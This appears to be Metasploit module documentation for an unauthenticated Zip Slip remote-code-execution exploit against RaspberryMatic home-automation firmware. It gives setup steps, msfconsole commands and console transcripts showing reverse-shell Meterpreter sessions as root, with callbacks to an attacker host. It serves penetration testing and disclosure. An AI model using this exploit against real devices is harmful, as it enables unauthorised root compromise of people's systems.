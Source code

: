 ## Vulnerable Application
RaspberryMatic / OCCU contains a unauthenticated remote code execution (RCE) vulnerability, caused by multiple issues within
the Java based HMIPServer.jar component. The webui allows for Firmware uploads which can be reached through the URL
`/pages/jpages/system/DeviceFirmware/addFirmware`.
This allows an unauthenticated attacker to upload a malicious .tgz archive to the server, which will be automatically
extracted without any further checks. As this entry can contain ../sequences, it is possible to break out of the predefined
temp directory and write files to other locations outside this path.

This vulnerability is commonly known as the Zip Slip vulnerability and can be used to overwrite arbitrary files on the main
filesystem. It is therefore possible to overwrite the watchdog script with a malicious payload in `/usr/local/addons/mediola/bin/`,
which will be executed every five minutes through a cron job where attackers can gain remote code execution as root user,
allowing a full system compromise.

RaspberryMatic versions <= `3.73.9.20240130` are vulnerable.

The following releases were tested.

**RaspberryMatic Releases:**
* RaspberryMatic v3.73.9 (OVA image)
* RaspberryMatic v3.65.8 (Raspberry Pi4 Model B image)

## Installation steps to install RaspberryMatic OVA image
* Install your favorite virtualization engine (VMware or VirtualBox) on your preferred platform.
* Here are the installation instructions for [VirtualBox on MacOS](https://tecadmin.net/how-to-install-virtualbox-on-macos/).
* Download [RaspberryMatic OVA](https://github.com/jens-maus/RaspberryMatic/releases/tag/3.73.9.20240130).
* Install the OVA image in your virtualization engine.
* When installed, configure the VM appliance to your needs using the menu options via the `webui`.
* Boot up the VM and should be able to access the RaspberryMatic appliance via the `webui` via `http://your_ip/`.

You are now ready to test the module.

## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/raspberrymatic_unauth_rce_cve_2024_24578`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=Unix/Linux Command, 1=Linux Dropper (ARM)>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
No specific options defined.

## Scenarios
### RaspberryMatic OVA appliance - Unix/Linux Command target
```msf
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set FETCH_SRVHOST 192.168.201.8
FETCH_SRVHOST => 192.168.201.8
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set FETCH_WRITABLE_DIR /tmp
FETCH_WRITABLE_DIR => /tmp
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. RaspberryMatic 3.73.9
[*] Executing Unix/Linux Command for cmd/linux/http/x64/meterpreter/reverse_tcp
[*] Uploading sT2s4fChKUZ.tgz
[*] Waiting 5 minutes for watchdog execution via cron to trigger the RCE.
[*] Sending stage (3045380 bytes) to 192.168.201.6
[*] Restoring original watchdog script.
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:51220) at 2025-01-28 18:00:01 +0000

meterpreter > sysinfo
Computer     : 192.168.201.6
OS           :  (Linux 6.1.74)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/root
meterpreter >
```
### RaspberryMatic Pi4 Model B compute board - Linux Dropper (ARM) Command target
```msf
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set target 1
target => 1
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > set rhosts 192.168.201.10
rhosts => 192.168.201.10
msf6 exploit(linux/http/raspberrymatic_unauth_rce_cve_2024_24578) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.10:443 can be exploited.
[+] The target appears to be vulnerable. RaspberryMatic 3.65.8
[*] Executing Linux Dropper (ARM support) for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:8080/4h2lPduH4
[*] Uploading Aarv1CEc.tgz
[*] Waiting 5 minutes for watchdog execution via cron to trigger the RCE.
[*] Command Stager progress - 100.00% done (115/115 bytes)
[*] Client 192.168.201.10 (Wget/1.21.3) requested /4h2lPduH4
[*] Sending payload to 192.168.201.10 (Wget/1.21.3)
[*] Restoring original watchdog script.
[*] Meterpreter session 2 opened (192.168.201.8:4444 -> 192.168.201.10:34866) at 2025-01-28 18:10:01 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           :  (Linux 5.15.56)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter > pwd
/root
meterpreter >
```

## Limitations
You have to wait maximum five minutes for a session to allow `cron` to run the malicious watchdog script
containing the payload. Just be patient and wait for the magic to happen ;-)
